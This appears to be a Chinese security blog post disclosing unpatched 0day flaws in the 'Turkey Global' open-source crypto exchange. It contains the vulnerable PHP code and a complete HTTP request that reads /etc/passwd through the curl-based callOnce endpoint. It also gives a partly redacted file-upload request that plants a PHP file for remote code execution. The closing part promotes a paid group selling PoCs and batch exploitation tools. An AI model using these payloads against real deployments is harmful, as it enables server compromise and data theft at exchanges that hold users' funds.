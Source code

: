 #  【0day】Turkey Global全开源9语言交易所审计   
原创 Mstir  星悦安全   2025-05-12 05:00  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x00 前言  
  
项目编号-10004   漏洞评估:9.8  
  
**Turkey Global全开源9语言交易所源码/币币交易/合约交易/秒合约交易/C2C交易/新币认购/理财，后端是fastadmin框架，计划任务用的是宝塔的监控插件，手机端没有k线，pc端有实时k线，但是pc里面k线的行情图有报错，程序自带了在线客服的插件.**  
  
****  
Fofa指纹:  
暂不公开  
  
![2025050618463073.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5c4fkZgjHUib1wDRvG3umBAcQRMIdDWsOFm0Mnmcnv4QafGEdQeb7fY08IQ2wK7cNYfXSjebpVyDVQ/640?wx_fmt=other&from=appmsg "")  
![202505061846087.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5c4fkZgjHUib1wDRvG3umBAcibVQrrK27Ckf6VttKmib4qf0Yc72r17BFwQnic1XI56JVHFeOiaJtNfiaLA/640?wx_fmt=other&from=appmsg "")  
![2025050618454085.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5c4fkZgjHUib1wDRvG3umBAcDJClRiaGSNUk0y5bCnFj78vNxTrUvmetocydXCgkmMl0dktThEI7ZPw/640?wx_fmt=other&from=appmsg "")  
  
**框架:ThinkPHP 5.0.24 Debug:True**  
## 0x01 前台任意文件读取漏洞  
位于 /application/api/controller/Fanyi.php 控制器的 callOnce 方法通过传入url参数，进入curl_exec 中，导致漏洞产生.public function callOnce($url, $args=null, $method="post", $withCookie = false, $timeout = 10, $headers=array())  {/*{{{*/   $ch = curl_init();   if($method == "post")    {     $data = $this->convert($args);     curl_setopt($ch, CURLOPT_POSTFIELDS, $data);     curl_setopt($ch, CURLOPT_POST, 1);   }   else    {     $data = $this->convert($args);     if($data)      {       if(stripos($url, "?") > 0)        {         $url .= "&$data";       }       else        {         $url .= "?$data";       }     }   }   curl_setopt($ch, CURLOPT_URL, $url);   curl_setopt($ch, CURLOPT_TIMEOUT, $timeout);   curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);   if(!empty($headers))    {     curl_setopt($ch, CURLOPT_HTTPHEADER, $headers);   }   if($withCookie)   {     curl_setopt($ch, CURLOPT_COOKIEJAR, $_COOKIE);   }   $r = curl_exec($ch);   curl_close($ch);   return $r;  }  
**Payload:**  
```
GET /api/fanyi/callOnce?url=file:///etc/passwd HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: no-cache
Connection: keep-alive
Host: 192.168.200.128
Pragma: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36

```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5c4fkZgjHUib1wDRvG3umBAcG1qsichW5It49bXy3qIDIBICgwnGyNYP6zuDGMJTzPwRjDZ203lmk0w/640?wx_fmt=png&from=appmsg "")  
## 0x02 前台RCE漏洞  
  
位于 /*****/*****/*****/***** 的FileUpload方法存在任意文件上传漏洞，且未加过滤，导致漏洞产生.  
  
Payload:  
  
```
POST /***/***/****/****/fileUpload HTTP/1.1
Host: 192.168.200.128
Content-Length: 997
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryHx58bwavVjamnK8o
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryHx58bwavVja

...... 完整Payload在文末
------WebKitFormBoundaryHx58bwavVja
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
------WebKitFormBoundaryHx58bwavVjamnK8o--
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5c4fkZgjHUib1wDRvG3umBAczlUuy27bzwfQA8DjY9nnsNagFMG1wmOHMcSvgavB4172dbuvwSInwA/640?wx_fmt=png&from=appmsg "")  
  
文件写入到  /1.php 访问即可  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5c4fkZgjHUib1wDRvG3umBAcHsqVXraTlqVto2jMRtt65hfAnvN4LLJk60PO01faKpicqicMsibYgiaMBw/640?wx_fmt=png&from=appmsg "")  
## 0x02 知识星球  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转**  
  
  
完整POC及源码已放在知识星球中，需要可自取!!!  
  
**高质量漏洞利用研究，代码审计圈子，每周至少更新三个0Day/Nday及对应漏洞的批量利用工具，团队内部POC，源码分享，星球不定时更新内外网攻防渗透技巧以及最新学习，SRC研究报告等。**  
  
**【圈子权益】**  
  
**1，一年至少999+漏洞Poc及对应漏洞批量利用工具**  
  
**2，各种漏洞利用工具及后续更新，渗透工具、文档资源分享**  
  
**3，内部漏洞库情报分享（目前已有150000+poc，会每日更新，包括部分未公开0/1day）**  
  
**4，加入内部微信群，遇到任何技术问题都可以进行快速提问、讨论交流；**  
  
**5，Fofa API 高级会员Key共享**  
  
**6,  高自动化代码审计工具共享**  
  
**圈子目前价格为已降价至129元，现在星球有1000+位师傅相信并选择加入我们**  
  
****  
**网站源码及漏洞库已于2025.5.12日更新**  
  
****  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5efdn10OrI6KuJRynyF3BIhdAXFwVWOKu2WkpehPyeW6H8u2unE5Tg297xNHhicv7y4dE1rXmHGGCQ/640?wx_fmt=jpeg&from=appmsg "")  
  
Fofa 高级会员 Key****  
  
****  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5c4fkZgjHUib1wDRvG3umBAcBUsQ86RewiciagSqyGFsD5GrPCKC6lop95HuichOjFVkgo0VuQvedibEcg/640?wx_fmt=png&from=appmsg "")  
  
超多审计资料，自动化审计工具  
  
![319d33192f5a9f019ec3f7a17cc25bb.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5fOtUasHrnibBFTUkOIJJH5Goe8FhSg3arBlw7QLWsJl3xiczb5QnWfRKiaSvcMBPHLuwFjkWuuFicDwQ/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5dVAUWP6LibARs3usK4kNz6g367ZEv3pT7cv8fl3YHMZH47sBH2IMy1J2XYeMNVXDJgLhP1yahI4pw/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5dPFicRheSpuSsBE8ZFeE6HwYQ7XZx91DUHD6M2jFjo9jwxZEnQs2PaU9jQAvYicVxtcIiaKI2QeRxqA/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
****  
**圈子内部漏********洞库(日更)**  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5dO3JY3ibuSzzKb6JXHOsho8GllKEjcqXnSa6OY73aptxTiaibrLiaKrw85bDlFrRjR8aUGrxZKVQBTug/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
**每篇文章均有完整指纹和详细POC**  
  
****  
**一起愉快地刷分**  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5ff43kUoicsmnll86ficaMcTp1nDJvFuhT6INWEyGaCkEEclfEo8Ld6OBOzzJ3BkTVbrfqd41XhAhicA/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5dPFicRheSpuSsBE8ZFeE6HwwvkuIIecPQwHta0wibQuCqoSTqsc2K1KZDpJb3enDibBiau4EEhxrTYxA/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5ff43kUoicsmnll86ficaMcTpt1uZwVAmW8XEscyvU51uc9sdiaHViaJKMEZyiaM4bAaQfGIPNd26u2A5w/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
**上千套审计源码，包括各种协同办公OA**  
  
****  
**入圈之后可私信我帮你开通永久VIP，已开通各大源码站VIP**  
  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5ddnP3GPD4EFbjricqxLYKEMbdFQjC7ZWqVCo8nDCz3kL1UhibTicP4Nmb2fa2RmsYHtXUiacMlkYkCNg/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5dbasJicXJDEOR85icHkfIda3gg2HpaWjW2MZN9KZdGzX99Ofl7SRETFA4TicFabIO2UGibSONn6bhXQw/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
****  
**高质量代码审计社区**  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5eYsOmVcqiczEs2xZkicGt1u6HibInHPVngJzcM5jLf64ncdDFEN0Sfzo5jFkUspBiaCTftaSsheb5JIQ/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转**  
  
**PS:关注公众号，持续更新漏洞文章**  
  
  
**免责声明:****文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
